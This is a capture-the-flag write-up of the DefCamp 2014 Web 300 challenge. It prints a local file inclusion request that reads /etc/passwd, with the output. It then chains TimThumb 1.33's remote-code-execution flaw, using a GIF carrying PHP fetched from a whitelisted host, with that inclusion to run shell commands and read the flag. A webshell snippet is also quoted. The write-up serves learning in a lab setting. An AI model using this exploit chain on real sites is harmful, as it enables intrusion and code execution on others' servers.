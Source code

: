 ```yaml
---
layout: post
title: "DefCamp 2014 Web 300"
date: 2014-10-23 11:48:43 -0400
author: [barrebas]
comments: true
categories: [defcamp]
---
```


### Solved by barrebas

We are again given an ip address. Upon visiting, it turns out to be some rudimentary page. I immediately spotted a LFI vulnerability, surfing to `http://10.13.37.13/?page=../../../../../../etc/passwd`:


```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
syslog:x:102:105::/home/syslog:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
```

Cool, but I couldn't get further with this. The images are apparently served by TimThumb, as I got this trying to do a LFI in `http://10.13.37.13/tt.php?w=240&src=../../../../../etc/passwd`:

```
file not found
Query String : w=240&src=../../../../../etc/passwd
TimThumb version : 1.33
```

[TimThumb v1.33](http://markmaunder.com/2011/08/02/technical-details-and-scripts-of-the-wordpress-timthumb-php-hack/) is vulnerable to RCE. The trick is to upload a malicious JPEG or GIF. This image contains php code, which is also uploaded into the thumbnail. This thumbnail is then stored into the `cache` directory. Indeed, externally uploaded images files are uploaded there, but only from domains that are in the whitelist. Luckily, `photobucket` is one of them. I made a black GIF image with a little bit of php appended:

```php
<?php
echo "Hi";
?>
```

After uploading it to photobucket, I browsed to `http://10.13.37.13/tt.php?w=2400&src=http://i36.photobucket.com/albums/e31/sbsebastian1/pwn_zpsa043d8a3.gif`. If you then take the md5 of the request, you can figure out where this image file is saved:

```bash
$ echo -ne 'http://i36.photobucket.com/albums/e31/sbsebastian1/pwn_zpsa043d8a3.gif' |md5sum
995e80b11b06e24b7d96ce109f4ef217  -
```

This particular file was stored at `./cache/external_995e80b11b06e24b7d96ce109f4ef217` so I hit the first LFI with that image: `http://10.13.37.13/?page=./cache/external_995e80b11b06e24b7d96ce109f4ef217`. Besides a lot of garbage, I also got 'Hi'. No php tags, just 'Hi'. This meant that it was indeed executing php code! I attempted to upload a reverse php shell and a simple `system($_GET['cmd']);` webshell, but both failed. I suspect `system()` is being blocked or filtered. Frustrated, I uploaded a GIF with the following php code:

```php
...gifdata...
<?php
echo "HI FROM VULNHUB-CTF";
echo `ls -alh`;
?>
```

This gave me a directory listing:

```
HI FROM VULNHUB-CTFtotal 116K

drwxr-xr-x 6 root root 4.0K Oct 12 12:36 .
drwxr-xr-x 3 root root 4.0K Oct 12 12:35 ..
-rw-r--r-- 1 root root 12 Oct 12 12:09 575b3f3f5318b2afbfe91ed860a4b10c.txt
drwxrwxrwx 2 root root 52K Oct 18 15:14 cache
-rw-r--r-- 1 root root 2.7K Oct 12 12:08 contact.html
drwxr-xr-x 2 root root 4.0K Aug 29 12:19 css
-rw-r--r-- 1 root root 2.9K Oct 12 12:04 home.html
drwxr-xr-x 2 root root 4.0K Aug 29 12:19 images
-rw-r--r-- 1 root root 180 Oct 12 12:03 index.php
drwxr-xr-x 2 root root 4.0K Aug 29 12:19 js
-rw-r--r-- 1 root root 21K Jul 31 2011 tt.php
```

This file called `575b3f3f5318b2afbfe91ed860a4b10c.txt` looked suspicious, so I uploaded a new GIF/php hybrid.

```php
...gifdata...
<?php
echo "HI FROM VULNHUB-CTF";
echo `cat 575b3f3f5318b2afbfe91ed860a4b10c.txt`;
?>
```

After hitting the LFI again, I was presented with the flag: `johnnybravo`!
